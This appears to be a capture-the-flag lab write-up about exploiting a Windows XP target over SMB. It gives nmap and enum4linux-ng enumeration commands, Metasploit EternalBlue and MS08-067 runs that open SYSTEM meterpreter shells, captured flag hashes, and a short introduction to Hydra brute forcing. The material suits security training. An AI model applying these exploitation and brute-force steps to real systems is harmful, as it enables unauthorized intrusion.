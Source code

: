 Today's focus will be identifying SMB vulnerabilities, enumerating shares users and configs, testing access, looking for valuable resources, and uploading a reverse shell if we find that there is write access.

Our goal is to gain a low privilege foothold by exploiting misconfigured or vulnerable SMB services manually, no automation tools like metasploit

SMB is commonly misconfigured, frequently exposes info like passwords, config files, up-loadable shares. Often allows guest or null session unauthenticated access, can read to a file upload reverse shell.

Using nmap to scan 445 SMB

```php
nmap -p 445 --script=smb-enum-shares,smb-enum-users,smb-os-discovery,smb-vuln* 10.129.227.181
```

We found these two common vulnerabilities from the scan

```php
Remote Code Execution vulnerability in Microsoft SMBv1 servers
CVE-2017-0143

Microsoft Windows system vulnerable to remote code execution
CVE-2008-4250
```

We found shares for `ADMIN$`, `C$`, `IPC$`

```php
enum4linux-ng 10.129.227.181
```

We found some version info on the machines OS

```php
OS: Windows 5.1
OS version: '5.1'
OS release: not supported
OS build: not supported
Native OS: Windows 5.1
```

Not too much useful info on `enum4linux`

```php
crackmapexec smb 10.129.227.181
```

From our output we find that SMB signing is not required 
I try to run `smbclient` but yield no results...
## CVE-2017-0143

The staged version of the exploit failed on us

```php
exploit(windows/smb/ms17_010_eternalblue)
[*] 10.129.227.181:445    - Scanned 1 of 1 hosts (100% complete)
[+] 10.129.227.181:445 - The target is vulnerable.
[-] 10.129.227.181:445 - Exploit aborted due to failure: no-target: This module only supports x64 (64-bit) targets
[*] Exploit completed, but no session was created.
```

Non staged version landed us a shell

```php
exploit(windows/smb/ms17_010_psexec)
meterpreter > shell
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.
```

We have gained a root shell on legacy

```php
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
## CVE-2008-4250
We have plenty of options

Landed us a shell on the system

```php
exploit(windows/smb/ms08_067_netapi)
[*] Meterpreter session 2 opened (10.10.14.209:4444 -> 10.129.227.181:1045) at 2025-06-02 07:30:55 -0400
meterpreter > 
```

We have gained a root shell on legacy

```php
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

Exploring the directories we find the flags for user john and the administrator user

User John: `e69af0e4f443de7e36876fda4ec7644f`
User Admin: `993442d258b0e0ec917cae9e695d5713`

Okay now that we have gone the metasploit route lets do manual exploit

`MS08-067` Manual Exploit

---

# FTP / SSH Brute Force + File Transfer

FTP (File Transfer Protocol) is used to transfer files between client and server
Scans on Port 21
Can be anonymous or credential based
Can be active or passive, passive used for firewalls

We can run commands like:
- `get filename` - download file 
- `put filename` - upload file
- `ls` - list all files
- `cd` - change directory
- `bye` or `exit` - quit

Were trying to find anonymous logins, looking for sensitive files, uploading malicious files, and escalating them to gain shell access. 

Hydra is a login cracker tool, used for brute forcing usernames and passwords against a service like `FTP`, `SSH`, `HTTP`, and `RDP`.
We provide it the target IP, wordlists for usernames and passwords, and a service. 
Hydra will make several login attempts in rapid succession. 
